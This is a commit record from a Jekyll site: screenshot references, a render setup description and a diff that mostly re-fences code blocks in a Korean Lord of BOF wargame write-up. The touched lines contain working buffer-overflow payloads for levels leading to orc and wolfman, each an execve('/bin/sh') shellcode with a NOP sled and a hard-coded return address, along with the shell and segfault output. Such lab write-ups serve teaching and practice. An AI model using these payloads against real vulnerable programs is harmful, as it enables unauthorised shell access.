

Before and after one commit to hacktagon/hacktagon.github.io, a Jekyll site: the page built from _posts/2017-03-12-LoB_Persu.md, in a window 1280 px wide and 900 px high, scrolled down 10836 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; some of the changed text lies outside the part shown.

Commit message:
init
test

````diff
--- a/_posts/2017-03-12-LoB_Persu.md
+++ b/_posts/2017-03-12-LoB_Persu.md
@@ -357,15 +357,15 @@ RET       : 4 byte (0xbffffc90)
 
 위와 같이 exploit payload 를 짜보자!
 
+```
 `python -c "print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*19+"\x90\xfc\xff\xbf"`
 
-오오 됨!!
-```
 bash$ my-pass
 euid = 504
 cantata
 ```
 
+오오 됨!!
 ## orc
 
 ### 1. source code
@@ -528,15 +528,14 @@ x/20wx $esp 를 계속하다보면
 
 exploit payload는 아래와 같다
 
+```
 ./wolfman `python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'+'\x90'*19+'\x14\xfe\xff\xbf'"`
 
-위 payload 를 입력하면 그림 좋게 segment fault가 뜨게 된다....
-
-```
 1�Ph//shh/bin��PS��1Ұ
                       ̀����������������������
 Segmentation fault
 ```
+위 payload 를 입력하면 그림 좋게 segment fault가 뜨게 된다....
 
 또 삽질 시작....
 결국 wolfman을 /tmp 디렉토리에 복사하여 소스코드에 argv의 real address를 출력하는 코드를 삽입하였다.
@@ -554,7 +553,9 @@ tmp/wolf `python -c "print 'A'*40 + 'BBBB' + '\xbf\xbf\xbf\xbf'"`
 0xbffffe08
 Segmentation fault (core dumped)
 ```
+
 최종 exploit payload는 아래와 같다
+
 ```
 ./wolfman `python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'+'\x90'*19+'\x08\xfe\xff\xbf'"`
 bash$ my-pass
````
